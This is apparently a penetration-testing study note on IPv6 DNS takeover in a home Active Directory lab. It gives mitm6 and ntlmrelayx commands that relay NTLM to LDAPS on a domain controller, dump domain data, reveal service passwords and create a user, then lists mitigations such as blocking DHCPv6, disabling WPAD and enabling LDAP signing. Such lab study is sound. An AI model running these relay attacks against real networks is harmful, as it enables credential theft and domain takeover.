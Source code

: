 #cybersecurity #hacking #penetration-testing 
#active-directory #man-in-the-middle #ipv6

# IPv6 Attacks

## IPv6 Attacks Overview

- using the fact that no one is managing DNS for IPv6

## Install Mitm6

Official repo: https://github.com/dirkjanm/mitm6
It comes with PMK: https://github.com/Dewalt-arch/pimpmykali

## Setting up LDAPS in AD Lab

This sets up LDAP Secure on the Server :

1. Add Active Directory Certificate Services to the DC
2. Configure with Certification Authority- keep all default settings except change validity period to 99 years

## IPv6 DNS Takeover via mitm6

1. Use mitm6

```bash
mitm6 -d dbz.local
```

![](https://i.imgur.com/vxPlb0g.png)

2. Start the relay attack pointed right at the DC

```bash
ntlmrelayx.py -6 -t ldaps://192.168.2.135 -wh fakewpad.dbz.local -l lootme
```
Notes: -6 for IPv6, -t for target, -wh (wtf is a wpad?), -l for loot

![](https://i.imgur.com/UjmjSh6.png)

3. Reboot the Win10-Vegeta Machine to speed things up

4. Output of the relay attack--->

This is the relay dumping the domain info:

![](https://i.imgur.com/P1vFSyJ.png)

Find passwords for the SQL Service!

![](https://i.imgur.com/mgMlMX6.png)

When an admin logins in to one of the win10 machines we get a new user created

![](https://i.imgur.com/HueOfR4.png)

If we check the Active Directory Users and Computers on Namek-DC

![](https://i.imgur.com/lzZvHSB.png)

### ACLPWN

It might be useful to know this is created in the mitm6 folder

![](https://i.imgur.com/QuKyeLu.png)

## Further information on IPv6

https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

## IPv6 Attack Defenses

Mitigation Strategies:

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4-only environments. If you don't use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

a. (Inbound) Core Networking - Dynamic Host Configuration
b.  (Inbound) Core Networking - Router Advertisement  
(ICMPv6-In)
c. (Outbound) Core Networking- Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)

2. If WAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.
3.  ﻿﻿﻿Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding
4.  ﻿﻿﻿Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.